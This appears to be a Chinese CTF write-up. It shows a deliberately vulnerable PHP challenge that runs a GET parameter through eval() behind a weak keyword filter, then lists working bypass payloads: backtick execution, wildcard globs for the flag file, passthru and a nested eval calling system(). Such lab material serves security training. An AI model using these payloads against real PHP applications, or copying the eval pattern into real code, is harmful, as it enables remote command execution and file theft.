





```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:42:26
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

源码分析

get方式传参c

过滤

flag

system

php

 

eval命令执行


利用 ` 

反字节符配合echo


```
?s=echo(`ls`);
```




利用*匹配

```
?c=echo(`cat fla*`);
```




利用?匹配

```
?c=echo(`cat ????.???`);
```




利用passthru函数也行

```
?c=passthru("cat ????.???");
```




拼接一个eval进行rce

```
?c=eval($_GET['ra1n3']);&ra1n3=system("cat flag.php");
```

